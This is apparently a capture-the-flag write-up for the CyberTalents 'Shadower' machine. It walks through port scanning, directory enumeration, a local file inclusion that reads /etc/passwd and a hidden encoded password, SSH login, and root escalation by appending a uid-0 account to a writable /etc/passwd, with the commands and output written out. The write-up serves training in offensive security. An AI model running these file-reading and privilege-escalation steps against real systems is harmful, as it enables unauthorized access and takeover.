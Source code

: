 ```yaml
---
title: Cybertalents Shadower Machine Writeup
author: Muhammad Adel
date: 2021-06-26 18:45:00 +0200
categories: [Cybertalents Writeups]
tags: [cybertalents, machines, box, ctf, network exploitation]
---
```


## **Description**


Get The highest privilege on the machine and find the flag!

Target IP: **35.156.4.248**

**Challenge Link:** [https://cybertalents.com/challenges/machines/shadower](https://cybertalents.com/challenges/machines/shadower)

## **User**

### **Nmap**

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4b:24:fc:36:53:c8:0b:f7:8c:31:7a:28:dd:c9:34:02 (RSA)
|   256 6c:6e:61:94:2f:fd:f6:d2:dc:25:e3:4f:32:ac:33:15 (ECDSA)
|_  256 ce:d7:0b:19:cb:32:3b:d4:f1:bf:f7:74:8a:52:d5:bc (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```
‌
### **HTTP**

the machine is running a webserver on port 80. it doesn't have sth interesting but we can use *dirsearch* to see hidden directory.

```bash
root@kali:~/dirsearch# python3 dirsearch.py -u 35.156.4.248 -e php

  _|. _ _  _  _  _ _|_    v0.3.9
 (_||| _) (/_(_|| (_| )

Extensions: php | HTTP method: GET | Threads: 20 | Wordlist size: 6707
Error Log: /home/itsfading/dirsearch/logs/errors-21-06-12_16-24-32.log
Target: 35.156.4.248
Output File: /home/itsfading/dirsearch/reports/35.156.4.248/_21-06-12_16-24-32.txt
[16:24:32] Starting:
[16:24:52] 200 -  827B  - /index.php
[16:24:52] 200 -   11KB - /index.html
[16:24:52] 200 -  827B  - /index.php/login/
```

Navigate to index.php we will find a hint in the page source that says LFI. So we try a simple LFI payload and we found the page is vulnerable. we can extract the */etc/passwd*.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
john:x:1001:1001:,,,:/home/john:/bin/bash
zerotier-one:x:999:999::/var/lib/zerotier-one:/bin/sh
```
‌
We have now some interesting usernames but still we need to find a password for them. After more enumeration we will find a hint at the contact page in the page source **"<!-my0wns3cr3t.sec -->"**

‌Because we have a LFI Vulnerability we can navigate to it by adding this word in the search:

[http://35.156.4.248/index.php?view=my0wns3cr3t.sec](http://35.156.4.248/index.php?view=my0wns3cr3t.sec)

This will give us a base64 encoded which will be a secret string. now we can decoded it Using a website like **CyberChef** but you will notice that you need to decode it 20 time to get decode value. you can write script for that or to decode it manually.

Finally we will get a password ***"B100dyPa$$w0rd"***


### **SSH**

We have now a password so we can try the usernames that we have to get access to the Machine. we found that John is a valid user


```bash
root@kali:~/CyberTalents/Shadower# ssh john@35.156.4.248
john@ip-172-31-30-167:~$ id
uid=1001(john) gid=1001(john) groups=1001(john)
```

## **Root**

### **Enumeration**

We can run any automating script to search a privilege escalation vector. I will use **linPEAS**.

It leads me to know that I have a permission to write to /etc/passwd.

## **Privilege Escalation**

Simply we will create our own user with root privileges and then we will switch to it.

```bash
john@ip-172-31-30-167:~$ openssl passwd adel
fItrMJ47Bbm3E
john@ip-172-31-30-167:~$ echo 'adel:fItrMJ47Bbm3E:0:0:adel:/home/adel:/bin/bash' >> /etc/pas
john@ip-172-31-30-167:~$ su adel
Password:

root@ip-172-31-30-167:/home/john# ls
linessh.sh  lse.sh
root@ip-172-31-30-167:/home/john# cat /root/root.txt
6199b2f763edfxxxxxxxb275375c100
```
‌
You can see this resource for more information about this privilege Escalation Technique.

[https://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation)](https://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation)
